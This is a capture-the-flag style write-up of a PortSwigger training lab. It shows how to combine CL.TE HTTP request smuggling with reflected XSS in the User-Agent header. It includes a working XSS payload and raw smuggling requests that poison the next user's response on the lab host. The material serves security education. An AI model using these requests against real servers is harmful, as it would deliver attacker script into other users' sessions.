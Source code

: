 # Exploiting HTTP request smuggling to deliver reflected XSS

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss), you'll learn: Exploiting HTTP request smuggling to deliver reflected XSS! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

The application is also vulnerable to [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) via the `User-Agent` header.

To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes `alert(1)`.

> Note: The lab simulates the activity of a victim user. Every few POST requests that you make to the lab, the victim user will make their own request. You might need to repeat your attack a few times to ensure that the victim user's request occurs as required.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201192831.png)

**In the home page, we can view other posts:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201192933.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201192950.png)

And we can leave some comments!

**View source page:**
```html
<section class="add-comment">
    <h2>Leave a comment</h2>
    <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
        <input required type="hidden" name="csrf" value="2oMCDZM3owQZvSAmrw39ZmhbQ6uqVRxD">
        <input required type="hidden" name="userAgent" value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36">
        <input required type="hidden" name="postId" value="4">
        <label>Comment:</label>
        <textarea required rows="12" cols="300" name="comment"></textarea>
                <label>Name:</label>
                <input required type="text" name="name">
                <label>Email:</label>
                <input required type="email" name="email">
                <label>Website:</label>
                <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
    </form>
</section>
```

As you can see, there is a `userAgent` hidden `<input>` hidden element, which is very interesting.

***If we can control the `User-Agent` header, it's vulnerable to reflected XSS!***

**To do so, use Burp Suite's Repeater and modify the `User-Agent` header:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193216.png)

In here, it's clear that we can control the `userAgent`'s value!

**Let's modify it to a XSS payload:**
```html
"><img src=errorpls onerror=alert(1)>
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193418.png)

**We can trigger it by visiting it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193454.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193506.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201193520.png)

Nice! We can confirm that **the posting comment function is vulnerable to reflected XSS!**

Now, can we escalate that vulnerability much more critical?

Hmm... Let's try HTTP request smuggling.

First, we need to determind it is vulnerable to **CL.TE** (Front-end uses `Content-Length`, back-end uses `Transfer-Encoding`) or **TE.CL** (Front-end uses `Transfer-Encoding`, back-end uses `Content-Length`) HTTP request smuggling.

- CL.TE:

To test it, we first need to send an attack request, then followed by a normal request.

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a840092043241a2c11b44b6007500b3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404pls HTTP/1.1
X-Foo: x
```

This request will smuggle a 404 GET request.

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201194040.png)

**Normal request:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201194049.png)

As you can see, we successfully smuggled a 404 GET request!

Hence, the web application is **vulnerable to CL.TE HTTP request smuggling.**

Now, how can we **combine reflected XSS and CL.TE HTTP request smuggling??**

**To do so, we can send the following smuggling request:**
```http
POST / HTTP/1.1
Host: 0a840092043241a2c11b44b6007500b3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Transfer-Encoding: chunked

0

GET /post?postId=4 HTTP/1.1
User-Agent: "><img src=errorpls onerror=alert(1)>
X-Foo: x
```

This request will smuggle a GET request to `/post?postId=4`, with the XSS payload in `User-Agent` header.

**By sending the attack request twice, the next user will trigger the XSS payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-10/images/Pasted%20image%2020230201194431.png)

# What we've learned:

1. Exploiting HTTP request smuggling to deliver reflected XSS